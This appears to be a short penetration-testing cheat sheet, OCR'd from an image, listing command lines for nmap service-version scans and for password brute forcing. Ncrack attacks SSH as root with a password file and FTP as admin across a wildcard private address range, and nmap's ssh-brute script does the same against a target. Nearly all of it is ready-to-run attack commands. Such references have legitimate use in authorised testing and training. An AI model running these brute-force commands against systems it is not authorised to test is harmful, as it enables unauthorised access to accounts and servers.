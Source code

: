 Version intensity scans:
nmap -p- 127.0.0.1 -sV --version-intensity 9
nmap -p- 127.0.0.1 -sV --version-all
----------------------------------------------

Brute force SSH with Ncrack and some fine tunning:
ncrack ssh://192.168.1.1:45120,CL=1,at=6,cd=15s,to=6h -v -f --user root -P ./pass.txt --save ~/ssh_session

ncrack ftp://192.168.*.*,cr=5 -T5 -v -f --user admin
----------------------------------------------

Brute force SSH with NSE and some fine tunning:
nmap -p22 --script ssh-brute --script-args userdb=<file>,passdb=<file> <target>
